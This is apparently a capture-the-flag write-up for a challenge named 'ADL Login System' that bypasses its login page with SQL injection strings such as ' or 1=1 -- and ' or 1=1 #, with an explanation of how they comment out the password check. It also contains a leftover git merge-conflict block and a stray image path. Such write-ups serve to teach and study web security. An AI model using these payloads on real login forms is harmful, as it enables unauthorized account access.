 # ADL Login System

![img](ADLLoginSystem.JPG)

This is a login page, telling us to input a username and a password.

When seeing this, I thought of SQL injection.

The most simple SQL injection is:

<<<<<<< HEAD
	' or 1=1 -- 
	[b]Note: There's a space in the back[/b]
=======
	‘ or 1=1 -- 
	**Note: There's a space in the back**
>>>>>>> 39f89e4bd6154dfd685ec6f15ecee13076bf57b0

So we input this in the username section and login....

![img2](ADLLoginSystem-SOL.JPG)

If no space behind the `--` then both the username and password section need to input the same thing

![img3](ADLLoginSystem-SOL1.JPG)
	
Yet there is another solution:

	' or 1=1 #
	
![img4](ADLLoginSystem-SOL2.JPG)

These SQL injection works because they make the rest part of the SQL code into comments.


Normal SQL code to obtain and check username and password:

	SELECT * FROM users WHERE name = '$name' and password = '$password'

Hence with `'` at the beginning of our input, and the comment symbol at the end of our input, the code becomes:

	SELECT * FROM users WHERE name = '' or '1'='1' -- and password = '$password'
	SELECT * FROM users WHERE name = '' or '1'='1' #and password = '$password'
	
Therefore, it only checks the username input, which is `'' or '1'='1'`, and will undoubtedly return 1. 

(Everything, on the same line, after `-- ` and `#` is turned into comments)

	

	
